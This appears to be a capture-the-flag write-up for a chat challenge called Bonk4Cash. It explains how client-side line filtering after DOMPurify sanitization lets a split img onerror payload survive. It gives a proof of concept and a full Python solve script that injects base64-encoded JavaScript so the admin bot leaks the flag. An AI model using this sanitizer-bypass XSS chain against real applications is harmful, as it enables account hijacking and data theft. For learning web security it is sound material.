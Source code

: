```yaml
---
ai_date: 2025-04-27 05:27:56
ai_summary: XSS exploitation via DOM manipulation after sanitization bypass in client-side JavaScript
ai_tags:
  - xss
  - sanitization-bypass
  - javascript
created: 2025-04-19T05:58
points: 493
solves: 15
tags:
  - xss
title: Bonk4Cash
updated: 2025-07-14T09:46
---
```


The client JS trusts the API so much it uses `innerHTML` to display the messages.

But the API is indeed secure, DOMPurify is used.

No known vulnerabilities in DOMPurify ...wait, the client is modifying the content after sanitization.

```js
if(resp.ok){
    const log = await resp.text();
    console.log(log);
    const filtered = log.split("\n").filter(msg => msg.split("]")[0].substring(1) === person).join("\n");
    chatlogbox.innerHTML = filtered;
}else{
    chatlogbox.innerHTML = "<br />Failed to load messages"
}
  ```

Let's try to exploit this, we trick `DOMPurify` into thinking that a malicious `img` tag is actually part of a innocent `h1`'s attributes, and it really is, but after being line-filtered by the client, that wrapper `h1` disappears and our `img` payload appears.

```js
const createDOMPurify = require('dompurify');
const { JSDOM } = require('jsdom');

const window = new JSDOM('').window;
const DOMPurify = createDOMPurify(window);

const chatMessages = [
    '[name] test<h1 lang="',
    '[name2] test<img src=1 onerror=\'/*',
    '[name2] */;alert(1)\'>">hello'
];
const person = 'name2';
const log = DOMPurify.sanitize(chatMessages.join("<br>\n"));
console.log("Sanitized log:");
console.log(log);
console.log("\n")

console.log("Filtered log:");
const filtered = log.split("\n").filter(msg => msg.split("]")[0].substring(1) === person).join("\n");
console.log(filtered);
```

```
Sanitized log:
[name] test<h1 lang="<br>
[name2] test<img src=1 onerror='/*<br>
[name2] */;alert(1)'>">hello</h1>


Filtered log:
[name2] test<img src=1 onerror='/*<br>
[name2] */;alert(1)'>">hello</h1>
```

And it worked!

## solve

With a working XSS on our hands the rest is super simple.

Just XSS the admin, get the flag by making the admin report the admin, then send it in chat via the admin account like a chad.

```python
import base64
import random
import time
import requests
import asyncio
import websockets

# origin = "localhost:8000"
origin = "44.197.178.240"
target = f"http://{origin}"

name1 = "kumo"+str(random.randint(0, 1000000))
name2 = "kumo"+str(random.randint(0, 1000000))
requests.post(f"{target}/clearchat")


def reg(username):
    s = requests.Session()
    r = s.post(f"{target}/register", data={"username": username})
    r.raise_for_status()
    return s


def chatkey(s):
    r = s.post(f"{target}/chatkey")
    r.raise_for_status()
    return r.text.strip()


def report(s, name):
    r = s.post(f"{target}/report/{name}")
    r.raise_for_status()
    return r.url


def spam_messages(chatkey1, chatkey2, payload):
    payload = base64.b64encode(payload.encode()).decode()

    async def chat_client():
        uri = f"ws://{origin}/chat"
        async with websockets.connect(uri) as ws2:
            async with websockets.connect(uri) as ws1:
                await ws1.send(chatkey1)
                await ws2.send(chatkey2)
                await ws2.send(f'*/;eval(atob(`{payload}`));\'>">p2')
                await ws2.send('p1<img src=1 onerror=\'/*')
                await asyncio.sleep(0.1)
                await ws1.send('payload starts<h1 lang="')
    asyncio.run(chat_client())


print(f"[*] Registering {name1} and {name2}")
s1 = reg(name1)
s2 = reg(name2)
chatkey1 = chatkey(s1)
chatkey2 = chatkey(s2)
chatkey3 = chatkey(s2)
print(f"[*] Sending payload to chat")
spam_messages(chatkey1, chatkey2, """
fetch("/chatkey",{method:"POST"}).then(r=>r.text()).then(chatkey=>{
    fetch("/report/admin",{method:"POST"}).then(r=>{
        console.log("yay", r.url);
        let ws = new WebSocket("/chat")
        ws.onopen = (event) => {
            ws.send(chatkey);
        }
        ws.onmessage = (event) => {
            console.log(`received ${event.data}`)
            if(event.data === "successfully authorized"){
                ws.send(r.url);
            }
        }
    }).catch(e=>console.log(e));
});
""")
print("[*] Checking payload")
print(requests.get(f"{target}/transcript").text)
print(f"[*] Reporting user {name2} to activate the payload")
print(report(s1, name2))
print("[*] Checking flag")
time.sleep(5)
print(requests.get(f"{target}/transcript").text)
```

```
[admin] http://localhost/?result=UMASS%7BAdm1n_g0T_B0nk3d_EfAv4k7r3dJgTcbjmp%7D<br>
```

```flag
UMASS{Adm1n_g0T_B0nk3d_EfAv4k7r3dJgTcbjmp}
```